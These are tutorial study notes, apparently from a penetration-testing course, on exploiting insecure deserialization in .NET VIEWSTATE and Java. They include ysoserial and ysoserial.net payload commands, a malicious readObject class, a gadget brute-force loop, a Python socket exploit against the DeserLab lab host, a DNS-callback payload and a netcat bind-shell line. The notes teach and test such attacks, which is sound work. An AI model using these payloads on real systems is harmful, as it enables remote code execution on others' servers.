- `NetDataContractSerializer` → *Similar to `DataContractSerializer` but includes .NET-specific type information, making it suitable for scenarios where both ends are .NET*
- `XMLSerialization` →  *Serializes objects to XML, focusing on a simple and human-readable format.*

Each of these serialization types is connected directly to certain supported objects and types. Usage of them is **situational** and connected to **.NET internals**

### *Generic way to attack using ysoserial.net*

*Is a versatile tool and a **.NET** equivalent of java’s **ysoserial.jar***

**Exemplifying `BinaryFormatter` serialization mechanism.** - Now days is obsolete 

***.NET console application** → Application serializes a string and writes the output to a file - is in binary format, as per the name of the serialization logic.*

```csharp
using System;
using System.IO;
using System.Runtime.Serialization.Formatters.Binary;

using CenterSpace.NMath.Core;

namespace CenterSpace.NMath.Core.Examples.CSharp 
{
	class BinarySerializationExample 
	{
		private const string filename = "data.dat";
		
		static void Main(string[] args)
		{
			Console.WriteLine();
		
			// Delete old file, if it exists
			if (File.Exists(filename))
			{
				Console.WriteLine("Deleting old file");
				File.Delete(filename);
			}
			
			// Create String
			var u = "Some String here";
			
			// Persist to file
			FileStream stream = File.Create(filename);
			var formatter = new BinaryFormatter(); // serialization mechanism 
			Console.WriteLine("Serializing string");
			formatter.Serialize(stream, u)
			stream.Close();
			
			// Restore from file
			stream = File.OpenRead(filename);
			Console.WriteLine("Deserializing string");
			var v = (String)formatter.Deserialize(stream);
			stream.Close();
			
			Console.WriteLine();
			Console.WriteLine("Press Enter Key");
			Console.Read();
		}
	}
}
```

`type data`


The serialize data in the file, indeed, it`s in binary format.

Thus, you can expect serialized .NET data encountered in WebAPP to be **base64 encoded** in order to conveniently send non-ASCII chars in HTTP requests and responses.

A **common**, but **not the only place** where serialized data can be found is when data is sent in a **VIEWSTATE** parameter or **.NET remoting services**

### *.NET remoting services*

*Can be considered part of the WebAPP world but they`re also part of the infrastructure.*

.NET remoting is the mechanics that **allows sending pure** .NET objects **via TCP**.

However, depending on the application infrastructure, WebAPP may provide a layer of transport to supply data destined to a .NET remoting endpoint. 

[https://github.com/nccgroup/VulnerableDotNetHTTPRemoting/](https://github.com/nccgroup/VulnerableDotNetHTTPRemoting/) 

### *VIEWSTATE*

*Is a **pure web parameter** that is used in the majority of .NET WebAPP in order to **persist the state** of the current web page.*

*Is the state of the page and all its controls. It’s automatically maintained across the WebAPP by the **ASP.NET** framework.*

When a page is sent back to the client, the changes in the properties of the page and its controls are determined, and then, they’re stored in the value of a **hidden input field** `_VIEWSTATE`

With **every other POST request**, the `_VIEWSTATE` field is sent to the server together with other parameters. 

The **Viewstate** has a form of **serialized data** which **gets deserialized when sent to the server**. 

*Of course, the later the .NET framework on server side, the more **countermeasures** will be in place. It would be too easy if the framework would let the users freely tamper the content of VIEWSTATE*

Latest countermeasures against **VIEWSTATE tampering are:**

- **MAC Enabled option** → *Viewstate is signed with a cryptographic key known only by the server-side. It’s configured by the following settings/option `<page enableViewState=Mac"true" />`*
- **Web.config** or “**Setting MAC validation in IIS manager**”→ *The latest .NET framework uses MAC validation by default*
- Encrypt → **`*<page ViewStateEncryptionMode="Always" />*`**

However, if the key is **hardcoded**, it might be leaked as a result of file read vulnerabilities like XXE, LFI, etc.

If MAC validation is enabled, then it could be possible to exploit viewstate-based deserialization **only if** the MAC key is hardcoded (e.g. in web.config)

**Burp** displays information about the MAC. In the Pro version of **Burp suite,** such a case is automatically triggered as **potential vulnerability**.

Example, generate a payload using **ysoserial.net** and put it into the viewstate parameter. The payload will perform a simple HTTP request, since this is the appropriate approach before trying more specific RCE payloads

- `hello.aspx.cs` (backend)
    
    
    
- `hello.apsx` (frontend)
    
    
    
- `web.config` (IIS standard config file)
    
    
    
- Intercept with burp and getting the ViewState
    
    
    
    
    
- `ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"`
    
    
    

For IIS users, the current default settings of IIS are to generate the key at runtime, and it’s different for each application. Which means that the viewstate parameter will change. 

## Serialization in Java

---

*When assessing java-based WebAPP should pay attention to **binary data***

- Starts with: `,,aced0005` (hex) / `rO0aB` (base64)
- Looks like a list of java classes: `org.apache.something` / `java.lang.String`

*Presence of such data **may** indicate that the target application is deserializing custom data.*

### ***1º Create a serialized object to understand the process better.***

**Item.java** → *Class named item - Is a simple class that has two fields.* 

```jsx
package eLearn;
import java.io.Serializable;

public class Item implements Serializable {
	int id;
	String name;
	
	public Item(int id , String name) {
		this.id = id;
		this.name = name;
	}
}

```

**Serialize.java →** *Serialization Logic - Will make use of that class. First it’ll create an instance of the Item class, and then serialize that instance as well as save it to a file.*

```jsx
package eLearn;

import java.io.*;

class Serialize {
	public static void main(String args[]) {
		try {
			// Create the object
			Item s1 = new Item(123, "look");
			
			// Creating stream and writing the object
			FileOutputStream fout = new FileOutputStream("data.ser");
			ObjectOutputStream out = new ObjectOutputStream(fout);
			out.writeObject(s1);
			out.flush();
			
			// Closing the stream
			out.close();
			System.out.println("Serialized data saved to data.ser");
			
		} catch (Exception e) {
			System.out.println(e);
		}
	}
}
```

- `type data.ser`
    
    
    
- `certutil -dump data.ser` - *is in binary format. Apart from some strings that disclose what serialized data might be, there are also some non-ASCII chars*
    
    
    

The file begins with the **`,,ac ed 00 05”`** bytes which is a standard java serialized format signature. 


As java serialized data is in **binary format,** when used in **WebApp** its often encoded using **Base64** in order to mitigate non-ASCII bytes.

When inspect web applications for java serialized objects, you should also look for base64 strings tarting with **`,,rO0AB**”` 


### ***2º Write code that will retrieve the serialized data out of the binary file.***

**Deserialize.java** 

```jsx
package eLearn;

import java.io.*;

class Deserialize {

	public static void main(String[] args) {
		try {
			//Creating stream to read the object
			ObjectInputStream in = new ObjectInputStream(new FileInputStream("data.ser"));
			Item s = (Item)in.readObject();
			
			//Print the data of the serialized object
			System.out.println(s.id + " " + s.name);
			
			//Close the stream
			in.close();
			
		} catch (Exception e) {
			System.out.println(e);
		}
		
	}
}
```

- `java eLearn.Deserialize`
    
    
    

Change the “data.ser” file. After opening it in a text editor, we change the to-be-deserialized class named `,,Item"` to `,,ltxm"`


If now try to deserialize the data.ser file, an error occurs; This is because the class Itxm does not exist


### *3º Deserialization Conditions*

When serializing and deserializing data, the deserializing endpoint must know - this means, it has to **include in its classpath** or **import** - All the classes and packages that the serialized object consist of

Basically, attacking Java serialization is about passing the **malicious state** of an object to the deserializing endpoint. 

Executing OS commands in Java could be done for example, by invoking code like

```jsx
Java.lang.Runtime.getRuntime.exec(,,whoami")
```

But in order to **make the deserializing** endpoint **execute** the above code, it **should be enclosed** in a serialized **object’s property**. 

An **Object’s Properties** in their simplest form are spotted in the format below:

- **`Object.one.two`**

Reading from right to left you can traverse the name and know that:

- Two is a property of one
- One is a property of Object

In the same way, if you see:

```jsx
Java.lang.Runtime.getRuntime.exec(,,id")
```

*exec(,,id”) is a property of getRuntime, which in turn is a property of Java.lang.Runtime*

During deserialization the object’s properties are accessed recursively, leading to code execution at the very end of this process. 

An opaque class order that allows chaining subsequent classes is possible thanks to **reflection**, which allows us to use methods without knowing them previously. 

Reflection can be recognized by the `,,opaque"` calling order in the code.

A **potentially exploitable condition** in Java occurs when **readObject()** or similar function is called on user-controlled object and later, a method on that object is called.

An attacker is able to craft such an object containing multiple, nested properties, that upon method call will do something completely different, e.g. hijack the called method by implementing a **Dynamic Proxy** and an **Invocation handler** in the serialized objects properties.

**For example**

**Application Context:**

- The application has a mechanism to read and deserialize objects from files. This could be for various legitimate reasons, such as loading configuration, state, or user data.
- The application expects the files to be safe and contain serialized instances of `VulnerableClass`.

**Malicious File Creation (by the Attacker)**:

- The attacker creates a malicious file ("malicious.ser") that contains a serialized instance of `MaliciousClass`.
- The attacker somehow gets this file into a location where the application will read it (e.g., through a file upload feature, social engineering, or exploiting another vulnerability).

**Deserialization by the Application**:

- The application reads and deserializes the file "malicious.ser", expecting it to contain a `VulnerableClass` object.
- During deserialization, the `readObject` method of the actual class in the file (`MaliciousClass`) is executed, running the malicious code.

**1º VulnerableClass.java** - The application expects to deserialize objects of this class:

```jsx
package eLearn;

import java.io.Serializable;
import java.io.ObjectInputStream;
import java.io.IOException;

public class VulnerableClass implements Serializable {
	private static final long serialVersionUID = 1;
	private String data;
	
	private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
		ois.defaultReadObject();
		// Vulnerable code: assumes the deserialized  data is safe to use
		System.out.println("Data: " + data);
	}
}
```

**2º Desserialization.java** - The application has code that deserializes objects from files:

```jsx
package eLearn;

import java.io.FileInputStream;
import java.io.ObjectInputStream;
import java.io.IOException;
import java.io.FileNotFoundException;

public class DeserializeVulnerable {
    public static void main(String[] args) {
        try (ObjectInputStream ois = new ObjectInputStream(new FileInputStream("malicious.ser"))) {
            VulnerableClass obj = (VulnerableClass) ois.readObject();
            System.out.println("Deserialization complete.");
        } catch (FileNotFoundException e) {
            e.printStackTrace();
        } catch (IOException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        }
    }
}
```

**What Happens in the Exploited Scenario**

- **Malicious Object**: The serialized data in "malicious.ser" actually contains an instance of `MaliciousClass`, not `VulnerableClass`.
- **Deserialization**: When `ois.readObject()` is called, it reconstructs the `MaliciousClass` object.
- **Type Casting**: Although the object is cast to `VulnerableClass`, it is actually an instance of `MaliciousClass`. Due to Java's dynamic nature, the cast does not prevent the `readObject` method of `MaliciousClass` from being executed.
- **Execution of Malicious Code**: The `readObject` method of `MaliciousClass` is invoked during deserialization, executing the malicious code (`Runtime.getRuntime().exec("calc.exe")`).

**3º MaliciousClass.java** - The attacker creates this class to exploit the deserialization vulnerability:

```
package eLearn;

import java.io.Serializable;
import java.io.ObjectInputStream;
import java.io.IOException;

public class MaliciousClass implements Serializable {
    private static final long serialVersionUID = 1L;

    private void readObject(ObjectInputStream ois) throws IOException, ClassNotFoundException {
        ois.defaultReadObject();
        // Malicious code execution using ProcessBuilder
        ProcessBuilder processBuilder = new ProcessBuilder("calc.exe"); 
        processBuilder.start();
    }
}
```

**4º SerializeMaliciousObject.java -** The attacker serializes `MaliciousClass` and creates "malicious.ser":

```
package eLearn;

import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.io.IOException;

public class SerializeMaliciousObject {
	public static void main(String[] args) {
		MaliciousClass maliciousObject = new MaliciousClass();
		try (ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("malicious.ser"))) {
			oos.writeObject(maliciousObject);
		} catch (IOException e) {
			e.printStackTrace();
		}
	}
}

```

Compile the Java classes

```jsx
javac eLearn/MaliciousClass.java eLearn/SerializeMaliciousObject.java eLearn/VulnerableClass.java eLearn/DeserializeVulnerable.java
```

Run the `SerializeMaliciousObject` class to create the "malicious.ser" file:

```
java eLearn.SerializeMaliciousObject
```

Run the `DeserializeVulnerable`

```jsx
java eLear.DeserializeVulnerable
```

- Result
    
    
    

### *4º Gadgets & Ysoserial*

Every property or method that is part of a **nested exploit** object is called a **gadget**

- **nested exploit what’s it**
    
    A "nested exploit" refers to a complex exploit technique where multiple smaller exploits, often referred to as "gadgets," are combined in a structured way to achieve a larger, more sophisticated attack. 
    
    When the exploit process involves multiple layers or components working together, it is referred to as a nested exploit. These components are nested within each other forming a complex structure.
    
    Each property or method within the nested exploit that **performs a specific function** is called a **gadget**. 
    
    Nested exploits are often used in advanced attacks because they can bypass certain security mechanisms, such as **Data Execution Prevention (DEP)**
    

There is a set of common libraries that were identified as **gadget libraries**  → *this doesn’t mean that they are insecure by design  - But the attacker can abuse them to construct a known gadget chain.*

**CommonsCollections** (version 1-6) is a library that were identified as vulnerable. 

There’s is a tool named [**ysoserial**](https://github.com/frohoff/ysoserial) that can be used to perform exploitation of **insecure java deserialization**.

- Multiple modules that can suite various Java deserialization exploitation

- `java -jar ysoserial-all.jar` - Displays the help message
    
    
    

The payload names displayed in the help message are **Library names** that the gadgets will be taken from. 

The **ysoserial** payload is in binary format. Often will need to convert the output to base64 in order to be able to send it to an application. 

- `java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 "whoami"`
`java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar CommonsCollections1 "whoami" | base64`
    
    
    

The command above generates a serialized payload, that upon being insecurely deserialized by an application that includes **CommonsCollections1** in its classpath, will result in executing the command `,,whoami"`

Its usage **isn’t the most convenient** when assessing **WebAPP** due to being a command line script.

Several **Burpsuite Pro** extensions have been developed in order to make Java serialization detection and exploitation easier.

- Freddy, Deserialization Bug Finder
- Java Deserialization Scanner

When approaching an application that utilizes serialized java data, we don’t know what libraries are used by the back end. In such a case, a brute-force approach might be rewarding.

Assume that payloads.txt contains **ALL ysoserial payload names**, one per line

```jsx
while read payload;
do echo -en "$payload\n\n";
java --add-opens java.base/sun.reflect.annotation=ALL-UNNAMED -jar ysoserial-all.jar $payload "whoami" | base64 | tr -d '\n' >
payloads/$payload.ser
echo -en "--------------------------------\n\n"; done < payloads.txt
```

The result file can be further used in **Burp Intruder** attacks. However, some of the payloads cause ysoserial to throw an error. This is because some payload names must be used in a specific way.

- [https://github.com/frohoff/ysoserial/tree/master/src/main/java/ysoserial/exploit](https://github.com/frohoff/ysoserial/tree/master/src/main/java/ysoserial/exploit)
    
    
    

Each of the .java files can be run as a separate java class, resulting in executing different code by the ysoserial tool. For example, based on the **names of the Java classes** that ysoserial contain, we can infer what they were built for 

A jar file, the format in which ysoserial is shipped, is a regular zip archive that can be unpacked. Due to this feature of Java, it’s possible to select and invoke a single method out of a jar archive.

In order to do that, we need to use the command line java utility with the **`-cp`** (classpath) argument. So if we wanna use the `JSF.java` module, we need to issue the following command line

- `java -cp ysoserial-all.jar ysoserial.exploit.JSF`
    
    
    

The JSF payload can be used to attack serialization in Java Face’s **VIEWSTATE** parameter 

### ***5º Exploiting Java Deserialization***

*Vulnerable environment: https://github.com/NickstaDB/DeserLab*

**Target Machine**

- `java -jar DeserLab.jar -server 192.168.83.129 4430`
    
    
    

**Attacker Machine** - try to just connect to the endpoint

- `nc 192.168.83.129 4430`
    
    
    
    
    

So try to use DeserLab’s client functionality to see if the connection will behave differently

- `java -jar DeserLab.jar -client 192.168.83.129 4430`
    
    
    
    
    

Can use Wireshark dump to see the Java serialized data in the communication

- Wireshark & Filter for `tcp.dstport == 4430`
    
    
    

In order to avoid manual revision of all the packets sent, the **tshark** tool can be used to spot the beginning of the serialization stream

save the Wireshark dump as **`deserialization.pcap`**

- `tcpdump -r deserialization.pcapng 'host 192.168.83.129 and host 192.168.83.128' -w finaldeserialization.pcap`

- `tshark -r deserialization.pcapng -T fields -e tcp.srcport -e data -e tcp.dstport -E separator=, | grep -v ',,' | grep '^4430,' | cut -d ',' -f2 | tr '\n' ':' | sed s/://g`
    
    
    

For every object / value transported in Java serialized data, there’s a preceding byte of certain value that identifies its type.

| 0x70 | TC_NULL |
| --- | --- |
| 0x71 | TC_REFERENCE |
| 0x72 | TC_CLASSDESC |
| 0x73 | TC_OBJECT |
| 0x74 | TC_STRING |
| 0x75 | TC_ARRAY |
| 0x76 | TC_CLASS |
| 0x77 | TC_BLOCKDATA |
| 0x78 | TC_ENDBLOCKDATA |
| 0x79 | TC_RESET |
| 0x7A | TC_BLOCKDATALONG |
| 0x7B | TC_EXCEPTION |
| 0x7C | TC_LONGSTRING |
| 0x7D | TC_PROXYCLASSDESC |
| 0x7E | TC_ENUM |

Can inspect **any Java serialized stream** to identify the object it contains using the [**Java Serialization Dumper**](https://github.com/NickstaDB/SerializationDumper) tool

Also, can build the tool using the supplied [**build.sh**](http://build.sh) script. The tool’s usage is straightforward, as the tool takes just a hex representation of serialized bytes and dumps the objects the byte stream consists.

- `java -jar SerializationDumper.jar aced00057704f000baaa77020101737200146e622e646573657265486173682657175657374e52ce9a92ac1f991020024c000a64617461546f48617368007472696e673b4c00077468654861736871007e0001787074000a74657374737472696e6774002064363763356532636535623031633939663933265333864656636535638`
    
    
    

The tool dumps **every object** that is contained within the serialized stream. 

The simple netcat listener/client was not enough to start a `,,serialized conversation"` since lots of serialized objects were sent to the target. 

You might also want to study the source code of the tool to see where certain parts of the serialized stream were generated and sent.

But how can we got from **replacing single objects to** **executing code**? 

- Build a  python script that will mimic the initial serialized handshake - 0xaced0005
- Replace the serialized data - the string hash, with the **ysoserial** payload

Based on the output of `Serialization Dumper` part of the communication must be mimicked using python. This includes the handshake, 2 `TC_BLOCKDATA` structures and the username.

The final payload is generated using **Groovy library** is chosen since it’s utilized by DeserLab.  

- `java -jar ysoserial-all.jar Groovy1 "ping 192.168.83.129" > p.bin`
    
    
    

The payload contains the java serialization signature in the beginning `ac ed 00 05` 

Since the serialized conversation is already started, we should remove it from the payload. That’s why in the exploit, you’ll see the **ysoserial** payload being shortened by removing the first 4 bytes.

**Exploit.py -** *it contains all structures dumped by the SerializationDumper tool until the hashed string, which is replaced by the ysoserial payload without its first 4 bytes `aced0005`*

```jsx
import socket

ip = "192.168.83.129"
port = 4430
payload = "p.bin"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip,port))

data = '\xac\xed\x00\x05' # Serialization handshake
s.sendall(data)

data = '\x77\x04'
data2= '\xf0\x00\xba\xaa' # TC_BLOCKDATA
s.sendall(data)
s.sendall(data2)

data = '\x77\x02' # Protocol version
data2 = '\x01\0x1'
s.sendall(data)
s.sendall(data2)

data = '\x77\x06' # depends on username 06 is string lenght +2
data2 = '\x00\x04\x74\x65\x73\x74' # 00 04 is string lenght, the 4 bytes T E S T
s.sendall(data)
s.sendall(data2)

f = open(payload, "rb") #ysoserial payload without first 4 bytes
c = f.read()
s.send(c[4:])
```

- `exploit.py`
    
    
    

### ***6º Analysis of URLDNS Payload***

The payload doesn’t result in code execution.

It makes the deserializing endpoint **resolve an arbitrary DNS name**.

This is rather a low-impact result of insecure deserialization, but on the other hand it uses **Java built-in features**, so it’s likely to work **almost every case**. 

Allows for **easier confirmation** of insecure deserialization.

[https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/URLDNS.java)

```jsx
// This code is called when the payload is created
public Object getObject(final String url) throws Exception {

    // Avoid DNS resolution during payload creation
    URLStreamHandler handler = new SilentURLStreamHandler();

    // Create the HashMap that will contain the URL
    // HashMap.readObject() -> HashMap ht = new HashMap()
    HashMap ht = new HashMap(); // This method is called during the deserialization of the HashMap object

    // Create the URL to use as a key in the HashMap
    // HashMap.putVal()
    URL u = new URL(null, url, handler); // The URL is used as a key in the HashMap

    // Adding the URL as a key and any serializable value to the HashMap
    // HashMap.putVal()
    ht.put(u, url); // During deserialization, HashMap.putVal() is called

    // Reconfigure the URL's hashCode
    Reflections.setFieldValue(u, "hashCode", -1); // Resets the hashCode so that the next call to hashCode() triggers DNS resolution

    return ht; // Returns the HashMap to be used as the payload
}

// This class is used to avoid DNS resolution during object creation
static class SilentURLStreamHandler extends URLStreamHandler {

    protected URLConnection openConnection(URL u) throws IOException {
        return null;
    }

    protected synchronized InetAddress getHostAddress(URL u) {
        return null;
    }
}

// During the deserialization of the object on the target:
    // 1. HashMap.readObject()
    // 2. HashMap.putVal()
    // 3. HashMap.hash()
    // 4. URL.hashCode() -> DNS resolution occurs here
```

`HashMap` is a Java data type that stores data in key-value pairs.

The `HashMap` contains a hashed URL object, which due to java built-in mechanisms, will be arbitrarily resolved.

The serialized object to be sent to the target is crafted in the public method `getObject` that returns an Object → *serialized payload.*

1. **Payload Creation**: A special object is created using a class `URLDNS`.
2. **Use of `HashMap`**: The malicious object uses a `HashMap`, which is a Java data structure that stores data in key-value pairs.
3. **URL Manipulation**: The `HashMap` contains a key that is a `URL` object. The `URL` class in Java has a special behavior: when the `hashCode()` method is called, it tries to resolve the DNS address of the URL.
4. **Avoid Initial Resolution**: A custom URL handler (`SilentURLStreamHandler`) is used to avoid DNS resolution when the object is created.
5. **Force Resolution on Deserialization**: When the `HashMap` is deserialized, it recalculates the `hashCode()` of the URL, forcing a new DNS resolution.

**Practical Example**

- `java -jar ysoserial-all.jar URLDNS [http://somethingnonexistent.com](http://somethingnonexistent.com/) > p.bin`
    
    
    

*In the Burp Suite Pro - can use Burp Collaborator Client in order to generate and catch DNS requests*

- [**`DNSChief`](https://github.com/iphelix/dnschef) →** *For poc*

- `nvim /etc/resolv.conf`
    
    
    

- `./dnschef.py`
`ping nonexistentdomain1231aeqqsa.com`
    
    
    

- `python3 exploit.py` → *Can see that the lookup is performed*
    
    
    
    
    

`URLDNS` can be used to detect deserialization issues **before** you can try to attack them with full-RCE payloads.

### ***7º Troubleshooting Ysoserial***

*Be aware that for different reasons the code execution payloads can fail when using **ysoserial**.*

*When attacking a serialization mechanism using **ysoserial** and aiming for code executions, lots of exceptions might occur.*

*In order to be able to confirm whether the application is secure or not, you should be familiar with the **exception types** that can be thrown during the attacking process.*

***Ysoserial** is a blind exploitation tool, so apart from DNS resolution, knowing exception types might help in assessing a potential attack surface.*

- **`ClassNotFoundException` →** *Target application **doesn`t** utilize the **gadget library** used by the ysoserial.*
- **`java.io.IOException` + “**,,Cannot run program**” → *Good sign** the payload worked.*

Create an RCE-related payload, be aware of its limitations:

- Output redirects and pipes are not supported
- Parameters to the command cannot contain spaces
    - `nc -lp 4444 -e /bin/sh` → *Okay*
    - `python -c import socket; ...` → *Won’t work because the parameter (import socket) to Python contains a space*


### Credits

- [eLearnSecurity](https://elearnsecurity.com)
- [Crowsec](https://crowsec.com.br/)
- [HackerOne](https://hackerone.com/)
- [OWASP](https://owasp.org)